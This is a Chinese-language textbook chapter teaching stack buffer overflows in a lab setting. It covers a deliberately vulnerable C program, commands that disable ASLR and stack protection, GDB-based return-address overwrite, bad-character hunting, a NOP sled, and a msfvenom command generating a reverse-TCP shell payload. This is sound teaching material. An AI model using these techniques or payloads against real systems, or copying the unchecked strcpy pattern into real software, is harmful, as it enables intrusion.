

# 第十章：Shellcoding - 堆栈

到目前为止，我们一直在较高的抽象层次上工作。我们回顾了一些有效的工具，用于高效地完成工作，并学习了如何以易于消化的格式轻松生成报告。尽管如此，如果我们停留在模糊的低层次并且不断让工具隐藏底层机器，就会遇到一堵墙，阻碍我们的进展。无论我们在做什么任务，数据包和应用数据最终都会转化为原始的机器数据。我们在处理网络协议时就学到了这一点，比如当一个工具告诉你目标不可达时。虽然那可能是事实，但如果你想知道那些飞速传输的比特信息发生了什么，那就显得毫无意义。作为一个安全专家，你需要能够解读手头的信息，模糊和不完整的数据是这个领域每天都要面对的现实。因此，在本章中，我们将开始深入了解机器的底层机制。这将为书后面的实际操作练习奠定基础，在这些练习中，理解计算机的思维方式对于编程任务至关重要。尽管这是一本实践书籍，本章内容比平时稍微偏向理论。别担心，我们还会展示如何将这种理解应用于实际任务。

本章内容包括以下内容：

+   介绍堆栈和调试

+   介绍汇编语言

+   构建并使用一个有漏洞的 C 程序

+   使用 GDB 调试器检查内存

+   介绍字节序的概念

+   介绍 shellcoding 概念

+   学习如何使用`msfvenom`来微调我们的 shellcode

# 技术要求

本章的技术要求如下：

+   Kali Linux

+   旧版本的 Kali 或 BackTrack，或允许堆栈执行的其他 Linux 版本

# 调试简介

这本书并不是关于逆向工程的，但逆向的科学与艺术对我们作为渗透测试人员非常有帮助。即使我们不编写自己的漏洞利用程序，逆向也能为我们提供鸟瞰图，帮助我们理解底层内存管理。到目前为止，我们已经看过了几种语言——Python 和 Ruby——并且在本章中，我们也将简单看一看一些 C 语言代码。这些语言都是**高级语言**，这意味着它们距离机器的本地语言有一层逻辑抽象，更接近于人类的思维方式。因此，它们包含诸如对象、过程、控制流、变量等高级概念。这种高级语言的抽象层次绝非平坦——例如，C 语言相比其他高级语言被认为更接近机器的本地语言。另一方面，**低级语言**几乎没有与机器码的抽象层次。黑客最重要的低级语言是汇编语言，它通常只有一层抽象，接近纯机器码。汇编语言由操作码（opcode，表示处理器执行某个特定操作的数字）和临时存储单元（称为寄存器，用于存储操作数）组成。在最低层次，所有程序基本上都可以看作是复杂的内存管理——它们都由数据组成，而数据必须从某个地方存储和读取。

从现在开始，除非特别说明，否则我们将使用**Intel 架构-32**（**IA-32**），即 32 位 x86 指令集架构（原始的 x86 是 16 位）。它是最常见的架构，因此最贴近实际应用。它也是理解其他架构的良好起点。现在，让我们看看内存是如何在运行时分配的。

## 理解栈

栈（stack）是与特定进程或线程相关联的一块内存。当我们说栈时，可以想象一叠盘子。一开始，你有一张桌子或厨房台面；然后，你把一只盘子放在台面上。接着，把下一个盘子放在前一个盘子上面。如果要取出中间的盘子，你需要先把上面的盘子拿走。（好吧，也许我有点过于沉迷于这个比喻了。我曾经做过服务员。）

这种组织堆栈的方法叫做 **后进先出**（**LIFO**）结构。将数据压入堆栈叫做 `push` 操作。将数据从堆栈中取出叫做 `pop` 操作，这也是我在计算机科学中最喜欢的术语之一。有时你会看到 `pull` 操作，但老实说，pop 听起来要有趣得多。在程序执行过程中，当一个函数被调用时，函数及其数据会被压入堆栈。堆栈指针会监视堆栈顶部的数据，在数据被压入和弹出堆栈时保持跟踪。当过程中的所有数据都被弹出堆栈时，最后一条信息是 `return` 指令，它将我们带回到程序开始调用之前的位置。由于程序数据位于内存中，`return` 是一条跳转到特定内存地址的指令。

## 理解寄存器

在我们开始玩调试器之前，我们需要回顾寄存器和一些基本的汇编语言概念。如前所述，处理器处理数据，而数据需要存储在某个地方，即使它只是短短的一瞬间。寄存器是直接由处理器访问的小型存储区域（我们所说的小是指 8 位、16 位、32 位和 64 位），因为它们是直接内建于处理器中的。

当你在办公室的桌子上工作时，触手可及的物品是可以立即访问的物品。假设你需要从办公室的文件柜里拿些东西。这可能需要你额外花费几分钟时间，但物品仍然随时可以获取。现在，假设你有一些纸箱存放在阁楼里。从那里获取数据可能有点麻烦，但当你必须取出时，你可以拉出梯子。需要从二级存储（硬盘）中检索程序数据会花费处理器很多时间，类似于你那尘土飞扬的阁楼。RAM 可以被看作是那个比桌子有更多空间的文件柜，但从中获取物品的速度并不像从桌子上取东西那么快。你的处理器需要寄存器，就像你需要桌面上的一些空间一样。

尽管 IA-32 架构有一些寄存器用于各种目的，但你只需要关注其中的八个：通用寄存器。记得我们提到过原始的 x86 是 16 位吗？其实 32 位是 16 位架构的扩展（因此有了 *E*），这意味着所有原始的寄存器仍然存在，并占据寄存器的下半部分。16 位架构本身是过去 8 位架构（8080）的扩展，所以你还会发现 8 位寄存器占据了 A、B、C 和 D 16 位寄存器的高低端。这种设计确保了向后兼容性。看看下面的图示：

图 10.1 – IA-32 寄存器映射

从技术上讲，之前提到的所有寄存器（除了**ESP**）都可以作为通用寄存器使用，但大多数情况下，`EAX`、`EBX`和`EDX`才是真正的通用寄存器。`ECX`可以用作函数中需要计数器的计数器（想象一下，*C*代表*counter*）。`ESI`和`EDI`通常用作内存复制时的**源索引**（**SI**）和**目标索引**（**DI**）。`EBP`通常作为栈基指针使用。`ESP`始终是栈指针——当前栈的位置（栈顶）。因此，如果数据要被压入（或弹出）栈，`ESP`告诉我们数据将去往或来自哪里。例如，如果数据从栈指针下方压入或弹出，栈指针就会更新为新的栈顶位置。那么，栈指针和栈基指针有何不同？栈基指针是当前栈帧的底部。当我们先前讨论函数调用的例子时，我们看到栈帧包含所有压入栈的相关数据。栈帧底部的返回值位于基指针的下方。如你所见，这些引用帮助我们真正理解内存中发生的事情。说到指针，我们还应注意`EIP`指令寄存器（指令指针），它告诉处理器下一条指令的位置。正如你可以想象的那样，它不是通用寄存器。

最后，还有状态寄存器`EFLAGS`（再次说明，*E*表示扩展，就像 16 位祖先一样，它叫做**FLAGS**）。标志位是包含处理器状态信息的特殊位。例如，当处理器被要求执行减法操作且结果为零时，零标志被设置。同样，如果结果为负，符号标志被设置。还有一些控制标志，实际上会影响处理器执行特定任务的方式。

## 汇编语言基础

如果你认为关于寄存器的这些信息很有趣，那么等你了解汇编语言时，寄存器的完整生命周期会更让你着迷！我们这里只看基础知识，因为要全面讲解这个话题需要更多的篇幅。不过，对于那些勇敢深入这个主题的人来说，理解一些基础知识有助于全面掌握汇编语言。

汇编语言，尽管其极度简洁，但也因其简约而美丽。很难想象如此接近机器代码的东西竟然如此简单，但请记住，处理器做的事情非常简单——它做数学运算，移动数据，并存储少量数据，包括状态信息。还要记住，处理器理解的是二进制——最底层就是 0 和 1。我们有两种方法使这种二进制机器语言稍微更适合人类——使用二进制的紧凑表示（也就是使用二的幂作为数字基数；我们将主要使用十六进制），以及汇编语言，它使用助记符来表示操作。几乎所有汇编语言都有两个主要组件——**操作码（opcode）** 和 **操作数（operand）**。**操作码（opcode）** 是指代表特定指令的代码。**操作数（operand）** 是操作码使用的参数，可以是立即数操作数类型（即代码中定义的值）；寄存器引用；或内存地址引用（实际上可以是前两种数据类型之一）。注意，某些操作码没有操作数。如果有目标操作数和源操作数，目标操作数优先，如以下示例所示：

mov    edi, ecx

在这种情况下，`edi` 寄存器是目标操作数，`ecx` 寄存器是源操作数。

请记住，根据环境的不同，存在两种汇编语言表示法——Intel 和 AT&T。你将在处理 Windows 二进制文件时遇到 Intel 表示法，因此本书中我们默认使用这种表示法。然而，在 Unix 环境中，你会遇到 AT&T 表示法。Intel 和 AT&T 之间的一个主要区别是，在 AT&T 表示法中，目标操作数和源操作数的位置是 **相反的**；然而，内存地址使用 `%()` 引用，这使得你可以轻松判断你面对的是哪种表示法。

让我们从基本操作码和一些示例开始：

+   `mov` 表示移动，将是你看到的最常见的操作码，因为处理器的大部分工作都是将数据从一个地方移到另一个地方（例如寄存器），以便它能处理当前的任务。以下是 `mov` 的一个示例：

mov    ecx, 0xbff4ca0b

+   `add`、`sub`、`div` 和 `mul` 都是基本的算术运算码——分别表示加法、减法、除法和乘法。

+   `cmp` 是比较指令，它接受两个操作数并通过标志位设置结果的状态。在以下示例中，比较了两个值；它们显然相同，因此它们之间的差值是 `0`，因此零标志被设置：

cmp    0x3e2, 0x3e2

+   `call` 是函数调用指令。此操作会将指令指针压入栈中，以便可以回到当前的位置，然后执行跳转到指定的地址。以下是 `call` 的一个示例：

call    0xc045bbb2

+   `jcc` 条件指令是汇编世界中的 if/then。`jnz` 是非常常见的，并且只接受一个操作数——一个内存中的目标地址。它表示“如果不为零，则跳转”，因此你经常会看到它在 `cmp` 操作之后。以下示例中，存储在 `eax` 中的值与十六进制值 `3e2`（十进制为 **994**）进行比较，如果零标志未设置，执行将跳转到内存中的 `0xbbbf03a5` 位置。以下两行，简单来说就是：*检查存储在`eax`寄存器中的值是否等于`994`，如果它们是不同的数字，则跳转到`0xbbbf03a5`处的指令*：

cmp    eax,0x3e2

jnz    0xbbbf03a5

+   `push` 与我们在讨论堆栈工作原理时提到的 `push` 相同。此命令将某些内容推送到堆栈中。如果你有一系列的 `push` 操作，那么这些操作数将按照出现的顺序进入堆栈，并按照 LIFO（后进先出）结构存储，如以下示例所示：

push    edx

push    ecx

push    eax

push    0x6cc3

call    0xbbfffc32

如你所见，这是一个非常简单的介绍。汇编语言是那种通过示例学习效果更好的东西，因此请继续关注书中的更多分析。

## 汇编器、调试器和反编译器——哇！

在继续之前，最好先回顾一下这些术语之间的差异，因为信不信由你，这些词语通常是可以互换使用的：

图 10.2 – 汇编器与反编译器

让我们定义一下每个术语：

+   **调试器** 是用于测试程序执行的工具。它可以帮助工程师识别执行中断的位置。调试器将使用某种类型的汇编器。

+   **汇编器** 是一个将纯机器码作为输入并显示底层代码的汇编语言表示的程序。

+   **反编译器** 尝试逆向编译过程。换句话说，它试图将二进制文件重构为高级语言，例如 C。程序员原始代码中的许多结构通常会丢失，因此反编译并不是一门精确的科学。

在本书的调试器部分，你将看到给定可执行文件的汇编语言表示，因此反汇编是这个过程中的必要部分。只需要理解处理器级别发生了什么的工程师只需要汇编器，而试图从程序中恢复高级功能的工程师将需要反编译器。

现在，让我们开始玩弄其中一个最好的调试器（在我们看来）——**GNU 调试器**（**GDB**）。

## 熟悉 Linux 命令行调试器 GDB

你可以在软件仓库中找到 GDB，所以安装它很容易。只需通过 `apt-get install gdb` 安装它。安装完成后，只需使用以下命令开始使用：

# gdb

GDB 中有许多命令按类别分类，因此建议你离线查阅 GDB 文档，深入了解其强大功能。稍后我们会查看其他调试器，因此这里不会花太多时间。让我们来看一下基础知识：

+   你可以通过在命令行中运行 `gdb` 时传递文件的名称和位置来加载可执行文件。你还可以使用 `--pid` 将 GDB 附加到现有进程。

+   `info` 命令是了解后台发生的事情的强大窗口；`info breakpoints` 会列出并提供有关断点的信息，以及代码中执行停止的特定位置，以便你可以检查该位置及其环境。`info registers` 在任何栈分析中都很重要，因为它展示了当前时刻处理器寄存器的状态。你可以与 `break` 一起使用它，监控程序运行时寄存器值的变化。

+   `list` 会显示源代码（如果它包含的话）。然后我们可以根据源代码中的位置设置断点，这非常方便。

+   `run` 告诉 GDB 运行目标；你像在 GDB 外部一样传递参数给 `run`。

+   `x` 只是意味着检查，它让我们可以窥视内存。我们将使用它检查栈指针之外的若干地址。例如，要检查栈指针 ESP 后 `45` 个十六进制字，我们可以输入 `x/45x $esp`。

现在我们将把这部分介绍提升到一个新的阶段，开始在 GDB 中玩弄一个有漏洞的程序。

# 栈冲击 – 介绍缓冲区溢出

在本章的前面，我们了解了栈的神奇世界。栈非常有序，其核心设计假设所有参与者都遵循它的规则——例如，任何将数据复制到缓冲区的操作都已经检查过，以确保数据能适应缓冲区。

虽然你可以使用最新的 Kali Linux 来设置并研究栈和寄存器，但 Kali 的最新版本中已经内置了栈执行对策。我们建议使用其他版本的 Linux（或较旧版本的 Kali 或 BackTrack）来查看漏洞的实际表现。不管怎样，我们将在*第十二章*中攻击 Windows 系统，*Shellcoding - 绕过杀毒软件*。

在我们开始之前，需要禁用 Linux 内置的栈保护机制。栈溢出之所以可能，部分原因是能够预测和操作内存地址。然而，**地址空间布局随机化**（**ASLR**）使得这一点变得更困难，因为很难预测被随机化的内容。我们稍后会讨论绕过方法，但为了演示目的，我们将通过以下命令暂时禁用它：

# echo 0 > /proc/sys/kernel/randomize_va_space

走之前先学会走路：禁用保护机制

理解栈溢出的基本原理非常重要，因此我们使用本章和下一章来创建一个理想的攻击实验室，这既具教育意义，又不太可能代表你实际客户的环境。业内已经从我们讨论的内容中吸取了教训，今天你会遇到诸如 ASLR 和 DEP 这样的保护机制。请继续关注*第十一章*，*Shellcoding - 绕过保护*，以便了解这些攻击如何工作，获取最新的实践经验。到那时，你将有历史的视角和概念性理解，来指导你在本书之外的学习。

现在，让我们使用我们 trusty 的 nano 来快速编写一个简单（且易受攻击的）C 程序，代码如下：

# nano demo.c

当我们输入这些时，先来看看我们的易受攻击的代码：

图 10.3 – 在 nano 中编辑我们的程序

程序从预处理指令`#include`开始，告诉程序包含定义的头文件。在这里，`stdio.h` 是定义标准输入输出变量类型的头文件。程序设置了`main`函数，返回值为无（因此是**void**）；`buffer`变量被声明并设置为 300 字节大小；`strcpy`（字符串拷贝）命令将传递给程序的参数复制到 300 字节的缓冲区；显示了一句经典电影中的机器人台词；最后，函数结束。

现在，我们来编译我们的程序。请注意，在以下示例中，我们还在编译时禁用了栈保护：

# gcc -g -fno-stack-protector -z execstack -o demo demo.c

# ./demo test

当你运行程序时，应该能看到`printf`输出的结果，正如预期的那样：

图 10.4 – 运行我们的演示程序

现在，我们可以看到演示程序将`test`作为输入并将其复制到缓冲区。然后，`printf`函数显示我们的消息。由于输入很小，因此我们不应该遇到任何问题；它完全适应缓冲区，甚至还有空余的空间。让我们看看如果我们按住*z*键一段时间再提交输入，会发生什么：

图 10.5 – 演示程序崩溃

啊哈！这里发生了*段错误*。程序崩溃了，因为我们输入了过多的数据。这个程序很简单，字面上几乎什么也不做，但仍然有一个`main`函数。在某个时刻，这个函数会被调用，并为其分配一个缓冲区。一旦栈上的所有内容被弹出，我们将剩下一个返回指针。如果这个指针指向一个无效地址，程序就会崩溃。现在，让我们把程序加载到 GDB 中，看看幕后发生了什么。

## 执行过程中检查栈和寄存器

我们将使用初始**测试**输入发出`run`命令，然后检查寄存器，看看正常操作的样子，如下所示：

# gdb 演示

(gdb) break 6

(gdb) run test

(gdb) info registers

这将为我们提供寄存器的清晰映射：

图 10.6 – GDB 中的寄存器映射

如我们在前面的截图中看到的，`esp` 和 `ebp` 紧挨在一起，因此现在我们可以确定栈帧。从`esp`开始，让我们找到返回地址。记住，它将是基指针之后的第一个十六进制字。我们知道我们从`esp`开始，但我们要在内存中查找多远呢？让我们来回顾一下计算。

栈指针位于`0xbffff470`，基指针位于`0xbfff5a8`。这意味着我们可以排除`bfff`，所以我们从`470`到`5a8`数十六进制字。一个简单的思考方式是按 16 个一组来数：`220`，`230`，`240`，`250`，依此类推，一直到`360`，共 20 组。因此，我们将检查 80 个十六进制字。如果你觉得这是 14 组而不是 20 组，那你可能还是在用十进制模式。记住，我们使用的是十六进制，这意味着`220`，`230`，`240`，`250`，`260`，`270`，`280`，`290`，`2a0`，`2b0`，`2c0`，等等。

现在我们知道我们正在检查 80 个十六进制字，接下来让我们向 GDB 发出这个命令：

(gdb) x/80x $esp

如果你找到了基指针地址并识别出它之后的十六进制字，你将得到返回地址，如下所示的截图所示：

图 10.7 – 高亮显示返回地址

仔细检查直到理解为止。然后，使用`quit`命令退出，以便我们可以再次执行相同的步骤。这一次，我们将用一长串字母`z`使程序崩溃，如下所示的命令所示：

# gdb 演示

(gdb) break 6

(gdb) run $(python -c 'print "z"*400')

啊！我们做了什么？看看函数试图跳转的内存地址，如下截图所示：

图 10.8 – 查看程序试图发送执行的位置

如你所见，如果你像之前一样运行`x/80x $esp`，你将再次看到栈。找到基指针，然后读取它之后的十六进制字。现在显示的是`0x7a7a7a7a`。`7a`是 ASCII 字符`z`的十六进制表示。我们溢出了缓冲区并替换了返回地址！我们的计算机对此非常愤怒，因为`0x7a7a7a7a`要么不存在，要么我们没有权利跳转到那里。在将其转化为有效攻击之前，我们需要确保理解内存中的位顺序。

## 小问题——理解字节序

“据计算，曾经有一万一千人多次死于非命，而不是屈服于在小端打破他们的蛋。”

*– 乔纳森·斯威夫特，《格列佛游记》*

稍微离开键盘，享受一下文学趣闻。在乔纳森·斯威夫特于 1726 年出版的《格列佛游记》中，我们的叙述者和旅行者莱梅尔·格列佛讲述了他在利立浦特国的冒险。利立浦特人被揭示为一群古怪的人，以对看似微不足道的事情进行激烈的争论而闻名。几个世纪以来，利立浦特人总是从大端打破鸡蛋。当一位皇帝试图通过法律强制规定鸡蛋必须从小端打破时，导致了叛乱，许多人因此丧命。

在计算机世界中，事实证明并不是所有人都同意字节在内存中的排列顺序。如果你花了很多时间研究网络协议，你会习惯于对从左到右读取的直觉——*大端法*，即最重要的位先存储在内存中。而在*小端法*中，最不重要的位先存储。通俗来说，小端法看起来像是倒着来的。对于我们这些黑客来说，这一点非常重要，因为就像利立浦特人一样，并不是每个人都会在你认为微不足道的事情上和你意见一致。作为一个壳编码者，特别是一个逆向工程师，你应该立即适应小端排序，因为它是 Intel 处理器的标准。

让我们通过使用内存中的十六进制单词给出一个简单的例子。比如说，假设你想让`0x12345678`出现在堆栈中。你传递给溢出函数的字符串将是`\x78\x56\x34\x12`。当你的漏洞利用失败时，你会发现自己首先检查字节顺序，作为故障排除的第一步。

现在，我们将进入壳编码的奇异世界。我们之前提到，将 400 字节的 ASCII 字母*z*塞入缓冲区会导致返回地址被`0x7a7a7a7a`覆盖。如果我们用以下输入执行程序，我们将跳转到哪个返回地址？

# demo $(python -c 'print "\x7a"*300 + "\xef\xbe\xad\xde"')

请记住小端法的概念，并在继续下一部分之前先进行尝试。

# 介绍壳编码

如果你在上一节的最后一个示例中尝试过，你应该看到执行试图跳转到 `0xdeadbeef`。（我们使用 `deadbeef` 是因为它是你可以用十六进制字符表示的少数几个内容之一。而且，它看起来不就像某种可怕的黑客名字吗？）这儿的关键是展示通过精心选择输入，你能够**控制**返回地址。这意味着我们也可以将 shellcode 作为参数传递，并将其填充到恰到好处的大小，以便连接返回地址到有效载荷中，然后返回并执行它。这本质上就是栈溢出攻击的核心。然而，正如你想象的那样，返回地址需要指向内存中的一个合适位置。在我们处理这个之前，让我们先获取一些比 `deadbeef` 更激动人心的字节。

我们不打算生成有效载荷并将其传递给将作为 `Metasploit` 或 `Shellter` 输入的文件，而是希望直接获取这些顽皮的十六进制字节。因此，我们不会将其输出到可执行文件，而是以 Python 格式输出，并直接从终端获取这些值。你知道接下来会发生什么，对吧？是的，我们将使用 `msfvenom` 来生成有效载荷。试试看吧——使用 Linux x86 有效载荷，获取字节，看看能否填满缓冲区并覆盖返回地址。

它没有成功，对吧？你可以看到有效载荷的前几个字节，但接下来似乎会变成零并且有一些其他的内存引用在各处。我们在第一次介绍 `msfvenom` 时提到了 *坏字符* —— 实际上会破坏执行的十六进制字节。臭名昭著的例子是 `\x00`，空字节。如果你尝试使用 `msfvenom` 帮助屏幕上的示例 —— `'\x00\xff'` —— 这算是一个不错的猜测，但它可能也没有成功。因此，我们唯一的选择就是在十六进制的丛林中进行猎寻，找到那些破坏我们 shellcode 的字节。

我们如何在不逐字节检查 shellcode 的情况下完成这项任务呢？幸运的是，有一个巧妙的解决方法。

## 猎寻破坏 shellcode 的字节

我们的破损 shellcode 问题的好处在于，罪魁祸首每次只是一个字节。一个字节只有两个十六进制数字，所以总共有 *16 * 16 = 256* 个字符需要检查。手动检查这些似乎有点多，但我们已经有了目标可执行文件演示，并且我们也有 GDB。那么，为什么不将所有 256 个字符（我们的猎寻有效载荷）作为一个参数传递，并在末尾加上一个 *target* 序列，看看我们的填充是否能到达堆栈呢？如果没有，我们就知道代码在某个地方断开了，然后可以逐字节调试，找到断点。当断开时，删除有问题的字符，然后反复操作。

让我们来看看这个示例。请注意，我使用了 4 字节的`\x90`作为填充：

图 10.9 – 使用 GDB 查找 shellcode 中的中断

让我们更仔细地检查这个输出：

+   我们可以很容易地在内存中的下一个位置看到我们的 4 个填充字节——`0x90909090`。因此，我们预计内存中的*下一个*单词应该是我们搜索载荷的开始；前四个字节是 01、02、03 和 04。由于是小端格式，我们预计是`0x04030201`。

+   我们在内存的下一个位置看到了预期的单词，所以现在让我们开始寻找中断。我们知道接下来的单词应该是这样的——`0x08070605`，`0x0c0b0a09`，以此类推。

+   嘿！我们发现`0xb7fcc100`，而不是我们搜索载荷的继续部分。那看起来很像内存中的一个位置。不管怎样，我们看到`\x08`是我们序列中最后一个成功进入堆栈的字节。

+   因此，我们现在可以推断出`\x09`是破坏代码的字符。

现在我们移除有问题的字符，并用修改后的搜索载荷再次运行——这就是*反复操作*的部分。最终，如果我们到达结尾并看到目标序列，我们就知道我们的字符是有效的。在这个例子中，我们使用`\x7a`作为目标。现在，让我们跳到当我最终通过一个没有坏字符的搜索载荷时的时刻。

当我发现那四个标志性的`\x7a`字节时，我知道我们已经到达了终点：

图 10.10 – 概念验证：shellcode 不包含坏字符

你可能会想，是否可以在线查找坏字符。这将帮助你发现一些常见的恶性字符，比如`\x00`。然而，这在不同系统之间可能会有所不同。不管怎样，这个过程是有价值的，因为你正在获得与目标的经验和熟悉度。

## 使用 msfvenom 生成 shellcode

现在我们知道了哪些字符会破坏我们的 shellcode，我们可以发出我们的`msfvenom`命令来抓取一个载荷，如下所示：

# msfvenom --payload linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=45678 --format py --bad-chars '\x00\x09\x0a\x20\xff'

你如何处理输出完全取决于你。你可以将其转储到一个 Python 脚本中，并在运行易受攻击的程序时作为参数调用。在以下例子中，我们将它直接转储到一个简单命令中以便操作：

图 10.11 – 使用 Python 将缓冲区填充上 shellcode

在这里我们看到一个*概念验证*——所有这些垃圾数据都是经过清理的有效负载，返回内存覆盖被附加在末尾。这证明了代码没有崩溃，因为你可以看到在定义的位置发生了段错误**无法访问内存**。如果代码实际上能够正常工作，并且我们将内存地址指向一个能够将执行流带到 shellcode 顶部的位置，那么我们就成功了。然而，还有一个难题，那就是准确地指向内存中 shellcode 所在的位置，这个问题难度大得出乎意料。你注意到 shellcode 前面的填充了吗？它是 150 字节的`\x90`；不同于字母 *z*，这并不是随意的。

## 戴上手套，我们要去玩 NOP 滑道了

处理器并不总是需要工作。毕竟，我们都需要休息一下。处理器总是按照指令执行，恰好我们可以告诉它*不*做任何事情。如果我们告诉处理器执行无操作，这条指令就叫做`NOP`。为了了解这如何帮助我们，让我们来看一下下面的堆栈结构：

图 10.12 – 攻击者如何指引执行流

整个红色框就是我们要填充到缓冲区中的内容。正如你所看到的，它根本无法完全适应；它会*溢出*缓冲区框，进入下面的空间，包括返回地址，我们将其指向 NOP 滑道的中间。执行流会到达返回地址并跳转到那里，以为它正在按预期返回；它没有意识到的是，我们已经覆盖了那个地址，它现在会忠实地跳转到我们刚刚填充进缓冲区的 NOP 滑道。NOP 滑道只不过是一长串*无操作*的代码。如果执行流落在那里，处理器将直接跳过这些指令，什么也不做，直到执行到下一条指令。执行就像从山顶滑下去一样，几乎字面意义上滑下山坡。山坡的底部就是我们的 shellcode。这种方法意味着我们不需要精确预测返回地址——它只需要落在 NOP 区域的任何位置。

NOP 代码`\x90`是最流行的，但就像防御中的许多事情一样，走得最多的路也是最容易被封堵的。不过，你可以传递一个 NOP 标志给`msfvenom`，它将为你生成由多种 NOP 代码组成的滑道。无论你使用哪种方法，你需要知道 NOP 滑道的长度。如果它太长，你只会用部分 shellcode 来覆盖 RET，这可能会导致段错误。我们已经知道我们的缓冲区是 300 字节，而有效负载是 150 字节。理论上，将缓冲区的正好一半填充 NOP 应该能精确覆盖返回地址。那么，我们应该指向哪里呢？实际上，任何地方都可以，只要你瞄准 NOP 滑道。那个范围内的任何地址都可以工作。

让我们再次使用 GDB 中的十六进制检查命令，观察你填充 NOP sled 后的栈情况：

图 10.13 – NOP sled 将我们引导到 shellcode

这里，我们标出了我们的滑雪坡。现在我们知道，在`0xbffff344`到`0xbffff3d7`之间的任何目标都会使我们进入 NOP sled，然后我们将滑入 shellcode 执行。

现在我们可以利用所学的知识，在不同环境下灵活地处理不同的可执行文件。再次尝试这些步骤，使用一个包含易受攻击缓冲区的不同 C 程序，这样你将处理不同的值。

# 摘要

在本章中，我们学习了程序执行过程中低级内存管理的基础知识。我们学会了如何检查执行过程中的细节，包括如何暂时暂停执行，以便我们可以详细检查内存。我们介绍了一些关于汇编语言和调试的基本知识，不仅完成了本章的学习，也为后续章节的工作做好了准备。我们编写了一个简单且易受攻击的 C 程序，演示栈溢出攻击。一旦我们理解了栈级别的程序，我们就使用`msfvenom`生成了一个纯十六进制操作码的有效负载。为了准备这个有效负载进入目标，我们学会了如何手动查找并移除破坏代码的 shellcode。

在下一章，我们将讨论这些原理如何促使防御者的进化，以及返回导向编程（ROP）这一创新解决方案。

# 问题

回答以下问题，测试你对本章内容的理解：

1.  栈是一个 ________，即后进先出（LIFO）结构。

1.  对于这个通用寄存器列表，找出未列出的八个寄存器中的哪一个——`EAX`、`EBX`、`ECX`、`EDX`、`EBP`、`ESI`、`EDI`。

1.  在 AT&T 汇编语言符号中，从一个地方复制数据到另一个地方时的操作数顺序是 ________。

1.  `jnz` 会导致执行跳转到指定的地址，如果 `EBX` 的值为零。（对 | 错）

1.  基址指针和栈指针之间的内存空间是 ________。

1.  `\x90` 操作码臭名昭著地破坏了 shellcode。（对 | 错）

1.  什么是小端（little-endian）？

# 进一步阅读

若要了解更多关于本章涵盖主题的信息，请查看以下资源：

+   *为了乐趣和利益，砸栈*，这是对栈溢出攻击的臭名昭著讨论（[`www.phrack.org/issues/49/14.xhtml#article`](http://www.phrack.org/issues/49/14.xhtml#article)）

+   *实用逆向工程：x86、x64、ARM、Windows 内核、逆向工具和混淆*，Dang、Bruce、Alexandre Gazet 和 Elias Bachaalany 著，John Wiley and Sons，2014 年。
